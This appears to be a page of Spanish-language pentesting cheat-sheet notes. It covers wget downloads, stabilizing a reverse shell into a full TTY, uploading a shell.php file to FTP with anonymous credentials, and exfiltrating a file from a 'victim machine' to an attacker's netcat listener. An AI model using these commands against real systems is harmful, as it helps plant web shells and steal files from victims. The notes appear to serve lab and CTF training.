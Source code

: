 #### Wget

```bash
# Descargar archivo
wget <http://example.com/file>

# Descargar archivo renombrado
wget -O filenmae <http://example.com/file>

# Descargar mas de un fichero
wget <http://example.com/file1> <http://example.com/file2>

# Descargar todos los archivos del servidor
wget -r <http://example.com/directory_files>
```

#### **Tratamiento TTY**

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

#### **Gestión ficheros**

*   **Upload**

    Upload files to FTP

    ```bash
    curl -T shell.php -u "usuari:password" ftp://IP_SERVIDOR/CARPETA/fitxer.*

    Ex:

    curl -T shell.php -u "anonymous:anonymous" <ftp://172.17.0.3:21/upload/shell.php>
    ```
*   **Download**

    Netcat

    ```bash
    # Attack Machine
     nc -lvp 4444 > FiletoDownload

    # Victim Machine
    nc 192.168.1.35 4444 -w 3 < FiletoDownload

    ```

